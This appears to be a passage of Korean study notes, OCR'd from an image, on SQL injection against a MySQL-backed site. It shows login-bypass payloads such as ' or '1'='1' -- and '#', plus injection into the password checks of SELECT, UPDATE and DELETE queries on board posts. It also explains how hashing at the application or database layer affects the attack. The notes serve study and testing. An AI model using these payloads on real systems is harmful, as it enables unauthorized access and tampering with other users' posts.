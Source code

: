    **mysql 주석문자: --, #
   ** --의 경우 [공백]--[공백] 이어야 함

   b. ID를 모를경우 - in-line query, Terminating query

    \> in-line query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (test' or 1=1 or '1'='1) ' and pw='{$pw}'"
    
    \> Terminating query
     \- "select * from member where id='{$id}' and pw='{$pw}'"
     \- "select * from member where id=' (test' or '1'='1' -- ) ' and pw='{$pw}'"
     \- "select * from member where id=' (test' or '1'='1'#) ' and pw='{$pw}'"

   c. 비밀글 비밀번호 부분 

    \> select * from board where idx=6 and pw='{$pw}'
      select * from board where idx=6 and pw=' (' or '1'='1) ' 
     \- 모든 결과가 참이 되므로... table 안에 첫번째 게시글이 나오게됨
    
    \> select * from board where idx=6 and pw=' (' or idx=8 -- ) '
     \- 해쉬화를 시켜 저장할 경우
        \1. application 단에서 해시화
         \> 싱글 쿼터(')로 판별 가능 > 입력시 오류 없음 > 싱글쿼터도 포함하여 md5 변환되어 서버로 전송

  ​       \> sql injection 불가
  ​      \2. DBMS 단에서 해시화
  ​       \> 싱글 쿼터(')로 판별 가능 > 입력 시 오류. (ex. md5() <- 괄호 안에 ' 들어가면 오류 생김) > sql injection가능

   d. 게시글 수정

   

    \> update 구문에 Password 검증 쿼리 예측
    
     \- UPDATE board SET title=..., content=..., data=... WHERE idx=7 and password={$pw}
      UPDATE board SET title=..., content=..., data=... WHERE idx=7 and password=' (' or '1'='1) '

  ​    (전체 구문에 영향을 미칠 수 있음..) 
  ​    UPDATE board SET title=..., content=..., data=... WHERE idx=7 and password='' (or idx=7 -- ) '

  ​    (따라서 idx 를 지정해주는 쿼리를 작성 하자)

   

    \> update 구문전 password 검증
     \- select * from board where idx=7 and password='' 후에 수정 페이지 들어간 후 수정

  







   e. 게시글 삭제

    \> delete 구문에 password 검증 쿼리 예측
     \- delete from where idx=7 and password=''

  


